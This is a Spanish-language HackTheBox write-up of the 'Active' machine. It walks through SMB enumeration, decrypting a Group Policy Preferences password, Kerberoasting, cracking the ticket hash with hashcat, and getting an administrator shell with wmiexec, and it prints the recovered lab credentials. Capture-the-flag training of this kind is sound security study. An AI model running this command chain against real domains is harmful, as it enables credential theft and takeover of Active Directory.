

# Active

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.129.219.179

---

## 1. Información Inicial
- **Objetivo:** Obtener las dos banderas de usuario y root.  
- **Herramientas iniciales:** `nmap`, `smbclient`, `smbmap`, `gpp-decrypt`, `hashcat`, `GetUserSPN`, `wmiexec`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV --min-rate 5000 10.129.219.179
```


Tras el escaneo notamos rápidamente que se trata de un Active Directory, por lo que la primera idea que se nos viene a la cabeza es comprobar el acceso anónimo a SMB.
Usaremos la herramienta `smbclient` para esto:
```bash 
smbclient -L //10.129.219.179
```


Debido a que no hemos tenido problemas y nos muestra algunos directorios compartidos que pueden sernos útiles, vamos a mirar los permisos de cada uno.
```bash 
smbmap -H 10.129.219.179
```


El directorio Replication es el único que nos ha permitido acceder a él, y podemos encontrar dentro de él un directorio llamado active.htb, el cuál vamos a descargar recursivamente para poder analizarlo más detenidamente en nuestra máquina local.

```bash 
smbclient //10.129.219.179/Replication
RECURSE ON 
PROMPT OFF
mget *
```


Tras observar detenidamente cada uno de los archivos, detectamos unas credenciales en el fichero active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml. El nombre del usuario son SVC_TGS y la contraseña está hasheada.


Por el tipo de hash y teniendo en cuenta de que se trata un Active Directory, lo más común es que se trate de una clave para GPP. Microsoft publicó la clave en 2014 y avisó a los administradores de servidores de que ya no eran seguras, por lo que tenemos herramientas para poder desencriptarla.

```bash 
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```



El resultado de las credenciales finales es: `SVC_TGS:GPPstillStandingStrong2k18`.

Con estas credenciales podemos comprobar los permisos de SMB, por si nos permitieran acceder a otro recurso diferente.

```bash 
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.219.179
```


Tratamos de acceder a los nuevos recursos disponibles, pero principalmente destaca el recursos Users. En este accedemos a Desktop y encontramos la primera bandera (user.txt).

```bash 
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.129.219.179/Users
```


Ahora vamos a tratar de escalar privilegios. Tras intentar acceder y obtener información de varios métodos, se nos vino a la cabeza el ataque Kerberoasting, donde cualquier usuario autenticado del dominio puede solicitar un ticket (TGS) para buscar si algún usuario tiene un SPN.

Utilizaremos el usuario que ya tenemos para autenticarnos por medio de la herramienta GetUserSPNs.py de Impacket.

```bash 
GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100 --request
```


Una vez obtenido el hash de la contraseña de administrador, vamos a usar hashcat ya que tiene una opción para crackearlo. Vamos a guardar el hash en un fichero con ese mismo nombre, y luego usaremos el siguiente comando: 

```bash 
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force --profile-disable
```                                  


La contraseña resultante sería `Ticketmaster1968`
Ya que estamos usando la herramienta Impacket, una herramienta que nos proporciona para abrir una shell con el usuario administrador y poder obtener la bandera de root es `wmiexec.py`.

```bash 
wmiexec.py active.htb/administrator:Ticketmaster1968@10.129.219.179
```                                  


